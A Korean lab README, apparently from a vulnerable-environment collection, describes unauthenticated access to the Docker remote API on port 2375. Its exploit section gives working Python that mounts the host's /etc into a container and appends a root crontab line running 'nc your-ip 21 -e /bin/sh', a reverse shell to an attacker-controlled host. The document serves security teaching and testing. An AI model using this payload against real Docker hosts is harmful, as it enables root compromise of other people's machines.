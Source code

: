 # docker daemon API 접근 권한이 없는 취약성

참고 링크:

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## 취약한 환경

취약한 환경 컴파일 및 시작:

```
docker compose build
docker compose up -d
```

환경이 시작되면 2375 포트가 수신됩니다.

## 익스플로잇

이용 방법은 우리가 임의로 컨테이너를 부팅하고, 호스트 컴퓨터의 `/etc` 디렉토리를 컨테이너에 마운트하면, 임의로 파일을 읽고 쓸 수 있습니다.우리는 crontab 프로필에 명령을 써서 셸을 획득할 수 있습니다.

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

crontab 파일에 쓰고, 성공적으로 셸을 획득했습니다.

![](1.png)
